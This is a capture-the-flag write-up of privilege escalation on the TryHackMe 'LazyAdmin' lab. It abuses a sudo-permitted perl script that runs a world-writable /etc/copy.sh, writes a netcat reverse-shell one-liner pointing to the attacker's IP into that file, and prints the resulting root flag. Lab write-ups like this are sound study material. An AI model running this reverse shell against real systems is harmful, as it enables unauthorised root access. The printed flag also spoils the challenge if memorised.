# Privilege Escalation

We start [[Privilege Escalation]] checking for sudo -l :

```
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```

and checking the [[Script]] we see that it is running system (‘sh’,’/etc/copy.sh’) and checking the permission of `/etc/copy.sh` we see we can modify that so we do for a revshell ;

```
$ cd /etc/
$ ls -lah | grep copy.sh
-rw-r--rwx   1 root root     81 Nov 29 13:45 copy.sh
$ cat copy.sh	
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.162.183 5554 >/tmp/f' >/etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl

```

And we **[[Netcat]]** to have a root [[Shell]] , we can cat the root flag :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/LazyAdmin]
└─$ nc -lvnp 5554
listening on [any] 5554 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.205.167] 33370
/bin/sh: 0: can't access tty; job control turned off
# cd root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}

```

Pwned !!
